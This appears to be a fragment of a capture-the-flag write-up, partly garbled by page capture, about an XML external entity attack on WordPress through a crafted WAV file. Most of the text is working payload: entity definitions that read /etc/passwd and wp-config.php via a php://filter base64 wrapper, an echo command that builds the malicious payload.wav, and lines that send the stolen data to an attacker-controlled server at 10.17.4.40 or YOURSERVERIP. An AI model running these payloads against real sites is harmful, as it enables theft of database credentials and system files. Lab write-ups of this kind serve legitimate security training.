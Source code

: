 php FILENAME.php

![img-cen](https://i.imgur.com/yepzG1E.png)

why this?  It is the method that has been used to read sensitive wordpres files.

Other method for read local files in the web server is:

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

For decode this is very easy, in bash console use:

`echo "base64" | base64 -d`

END.

---

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

## Task 02: Ready Set Go

### payload

* payload.wav

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.17.4.40/payload.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

* Payload.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.17.4.40/?p=%file;'>" >
```

* hosted with PHP

```bash
php -S IP 80
```
